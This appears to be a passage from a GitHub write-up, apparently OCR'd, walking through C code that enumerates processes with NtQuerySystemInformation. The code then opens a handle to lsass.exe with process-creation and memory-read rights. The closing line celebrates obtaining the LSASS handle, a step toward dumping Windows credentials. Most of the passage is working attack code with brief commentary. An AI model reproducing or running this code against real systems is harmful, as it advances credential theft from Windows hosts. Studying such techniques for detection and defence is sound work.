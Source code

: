 
```c
	ULONG ReturnLength1 = 0x00; //needed buffer size for systemprocessinformation buffer
	ULONG ReturnLengthSystemInfo = 0x00; //actual returned buffer size for systemprocess information
	//first call tells us how big it needs to be..
	pNtQuerySystemInformation(SystemProcessInformation, NULL, NULL, &ReturnLength1); //Now we're getting system proc info..

	//Second call populates..
	PSYSTEM_PROCESS_INFORMATION pSystemProcessInformation = (PSYSTEM_PROCESS_INFORMATION)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, (SIZE_T)ReturnLength1);

	NTSTATUS status = pNtQuerySystemInformation(SystemProcessInformation, pSystemProcessInformation, ReturnLength1, &ReturnLengthSystemInfo); //Now we're getting system proc info..

	if (!pSystemProcessInformation && status != 0x00) {
		printf("SystemProcessInformation is empty...");
		return 0;
	}
```

The `SYSTEM_PROCESS_INFORMATION` struct contains a lot of system process data.  It contains PIDs, names, creation times, threads, PIDS, ect.  We can loop through the processes captured within this strcut to find our target process and open a new file handle with` PROCESS_CREATE_PROCESS | PROCESS_VM_READ | PROCESS_QUERY_INFORMATION` privileges.

```c
	while (true) {
		if (pSystemProcessInformation->ImageName.Length && wcscmp(pSystemProcessInformation->ImageName.Buffer, wProc) == 0) { //make sure the process ahs a name 
			// openning a handle to the target process and saving it, then breaking 
			wprintf(L"[i] Process \"%s\" - Of Pid : %d \n", pSystemProcessInformation->ImageName.Buffer, pSystemProcessInformation->UniqueProcessId);
			*hTarget = OpenProcess(PROCESS_CREATE_PROCESS | PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, FALSE, (DWORD)pSystemProcessInformation->UniqueProcessId);
			*PID = (DWORD)pSystemProcessInformation->UniqueProcessId;
			break;
		}
		if (!pSystemProcessInformation->NextEntryOffset) {
			printf("Broken?");
			break;
		}
		// moving to the next element in the array
		pSystemProcessInformation = (PSYSTEM_PROCESS_INFORMATION)((ULONG_PTR)pSystemProcessInformation + pSystemProcessInformation->NextEntryOffset);
	}
	//https://learn.microsoft.com/en-us/windows/win32/api/winternl/nf-winternl-ntqueryinformationprocess?redirectedfrom=MSDN
	return true;
}
```

With this `hTarget` now contains a `HANDLE` to lsass.exe!
